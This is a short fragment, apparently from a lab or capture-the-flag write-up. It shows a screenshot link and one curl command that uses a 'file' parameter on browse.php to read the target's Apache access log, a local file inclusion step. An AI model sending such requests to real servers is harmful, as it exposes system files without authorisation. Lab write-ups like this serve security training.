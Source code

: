 ![image-20221014205657665](./images/image-20221014205657665.png)

```bash
curl http://$tip/browse.php?file=/var/log/httpd-access.log
```
